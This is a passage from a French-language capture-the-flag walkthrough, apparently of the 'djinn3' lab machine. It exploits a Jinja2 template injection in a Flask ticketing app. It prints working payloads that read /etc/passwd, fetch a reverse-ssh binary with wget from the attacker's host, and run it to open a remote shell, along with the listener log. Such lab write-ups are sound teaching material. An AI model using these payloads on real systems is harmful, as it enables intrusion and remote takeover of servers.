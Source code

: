Sur le listing des tickets tout semble correct mais en affichant les détails pour le dernier ticket soumis je vois que le code Python a été interprété :

> #### 12
> 
> **Status**: open  
> **ID**: 4281  
> 
> #### Description:
> 
> 14
> 
> **Sorry for the bright page, we are working on some beautiful CSS**

Ce qui m'a mis la puce à l'oreille c'est principalement le fait que Nmap a détecté le serveur comme `Werkzeug`. Quand on cherche *Werkzeug STTI* sur un moteur de recherche on trouve aussitôt des liens en rapport avec `Flask` et le moteur de template `Jinja2`.

Bien sûr [HackTricks a un article pour les STTI Jinja2](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection-without-less-than-class-object-greater-than) car *HackTricks* a des astuces pour tout 💜

Je scrolle à la recherche d'un exemple de STTI pas trop compliqué (qui ne nécessite pas trop d'introspection sur les objets présents) et je trouve une section qui fait mon bonheur :

```python
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Nouveau ticket, affichage dans l'appli web et hop !

```
root:x:0:0:root:/root:/bin/bash
--- snip ---
saint:x:1000:1002:,,,:/home/saint:/bin/bash
jack:x:1001:1003:,,,:/home/jack:/bin/bash
mzfr:x:1002:1004:,,,:/home/mzfr:/bin/bash
```

On va le récupérer notre reverse shell :

```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cd /tmp;wget http://192.168.242.1/reverse-sshx64 -O reverse-sshx64;chmod 755 reverse-sshx64;").read() }}
```

et c'est parti :

```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("nohup /tmp/reverse-sshx64 -p 80 192.168.242.1&").read() }}
```

Tunnel établit, plus qu'à se connecter via ssh sur le port 8888 de localhost.

```shellsession
$ sudo ./reverse-sshx64 -l -p 80 -v
2022/11/22 09:31:11 Starting ssh server on :80
2022/11/22 09:31:11 Success: listening on [::]:80
2022/11/22 09:32:32 Successful authentication with password from reverse@192.168.242.132:43584
2022/11/22 09:32:32 Attempt to bind at 127.0.0.1:8888 granted
2022/11/22 09:32:32 New connection from 192.168.242.132:43584: www-data on djinn3 reachable via 127.0.0.1:8888
```
